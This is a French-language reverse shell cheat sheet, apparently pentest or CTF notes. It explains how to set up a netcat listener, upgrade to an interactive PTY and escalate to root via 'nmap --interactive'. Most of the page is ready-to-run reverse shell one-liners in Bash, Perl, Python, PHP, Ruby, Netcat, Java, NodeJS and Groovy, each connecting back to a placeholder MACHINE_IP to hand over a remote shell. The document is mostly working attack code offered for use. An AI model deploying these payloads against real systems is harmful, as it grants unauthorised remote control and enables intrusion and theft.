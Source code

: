 
Un reverse shell est un code à éxécuter sur une machine cible dans le but de pouvoir executer du code shell en elle.

## __Setup Netcat Listener__

Démarrage d’un serveur **Netcat** pour être à l’**écoute d’un port**.

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Attendez que votre [script](#__Scripts__) soit éxécuté.

Une fois le reverse shell en marche, pour switcher vers un **fully interactive shell**.

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")';
```

On peut ensuite utiliser **`su`** pour se connecter.

## __Nmap --interactive__

Si notre utilisateur a les permissions d'utiliser nmap, on peut utiliser [nmap pour se connecter en root](https://gtfobins.github.io/gtfobins/nmap/#shell) sur notre shell, pour cela :

```shell
user@linux:/$ nmap --interactive
nmap> !sh
```

## __Scripts__

Pour générer des reverses shells vous pouvez utiliser le site de 0day, [revshells](https://www.revshells.com/)
Voici n

### Bash

```bash
bash -i >& /dev/tcp/MACHINE_IP/1234 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="MACHINE_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php

```php
php -r '$sock=fsockopen("MACHINE_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("MACHINE_IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh MACHINE_IP 1234
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/MACHINE_IP/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "MACHINE_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Groovy

```groovy
String host="MACHINE_IP";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
	while(pi.available()>0)so.write(pi.read());
	while(pe.available()>0)so.write(pe.read());
	while(si.available()>0)po.write(si.read());
	so.flush();
	po.flush();Thread.sleep(50);
	try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();
s.close();
```
